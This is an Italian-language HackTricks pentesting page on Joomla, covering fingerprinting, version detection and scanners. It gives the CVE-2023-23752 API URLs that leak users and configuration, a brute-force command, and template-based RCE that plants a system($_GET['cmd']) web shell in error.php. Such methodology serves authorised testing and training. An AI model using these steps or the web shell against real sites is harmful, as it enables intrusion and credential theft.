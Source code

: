 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Approfondisci la tua esperienza in **Mobile Security** con 8kSec Academy. Masterizza la sicurezza di iOS e Android attraverso i nostri corsi autogestiti e ottieni la certificazione:

{% embed url="https://academy.8ksec.io/" %}

### Statistiche Joomla

Joomla raccoglie alcune [statistiche di utilizzo](https://developer.joomla.org/about/stats.html) anonime come la suddivisione delle versioni di Joomla, PHP e dei sistemi operativi del server in uso nelle installazioni di Joomla. Questi dati possono essere interrogati tramite il loro [API](https://developer.joomla.org/about/stats/api.html) pubblico.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumerazione

### Scoperta/Footprinting

* Controlla i **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Versione

* In **/administrator/manifests/files/joomla.xml** puoi vedere la versione.
* In **/language/en-GB/en-GB.xml** puoi ottenere la versione di Joomla.
* In **plugins/system/cache/cache.xml** puoi vedere una versione approssimativa.

### Automatico
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - La metodologia di pentesting web è una sezione sui scanner CMS**](./#cms-scanners) che possono scansionare Joomla.

### Divulgazione di informazioni non autenticata tramite API:

Le versioni da 4.0.0 a 4.2.7 sono vulnerabili a divulgazione di informazioni non autenticata (CVE-2023-23752) che dumpa credenziali e altre informazioni.

* Utenti: `http://<host>/api/v1/users?public=true`
* File di configurazione: `http://<host>/api/index.php/v1/config/application?public=true`

**Modulo MSF**: `scanner/http/joomla_api_improper_access_checks` o script ruby: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Puoi utilizzare questo [script](https://github.com/ajnik/joomla-bruteforce) per tentare di forzare l'accesso al login.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Se sei riuscito a ottenere **credenziali admin** puoi **RCE all'interno di esso** aggiungendo un frammento di **codice PHP** per ottenere **RCE**. Possiamo farlo **personalizzando** un **template**.

1. **Clicca** su **`Templates`** in basso a sinistra sotto `Configuration` per aprire il menu dei template.
2. **Clicca** su un nome di **template**. Scegliamo **`protostar`** sotto l'intestazione della colonna `Template`. Questo ci porterà alla pagina **`Templates: Customise`**.
3. Infine, puoi cliccare su una pagina per aprire il **sorgente della pagina**. Scegliamo la pagina **`error.php`**. Aggiungeremo un **PHP one-liner per ottenere l'esecuzione del codice** come segue:
1. **`system($_GET['cmd']);`**
4. **Salva & Chiudi**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Da XSS a RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Script di sfruttamento Joomla che **eleva XSS a RCE o altre vulnerabilità critiche**. Per ulteriori informazioni controlla [**questo post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Fornisce **supporto per le versioni Joomla 5.X.X, 4.X.X e 3.X.X, e consente di:**
* _**Privilegi di Escalation:**_ Crea un utente in Joomla.
* _**(RCE) Modifica Template Integrati:**_ Modifica un Template Integrato in Joomla.
* _**(Custom) Sfruttamenti Personalizzati:**_ Sfruttamenti Personalizzati per Plugin Joomla di Terze Parti.


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Approfondisci la tua esperienza in **Mobile Security** con 8kSec Academy. Padroneggia la sicurezza di iOS e Android attraverso i nostri corsi autogestiti e ottieni una certificazione:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
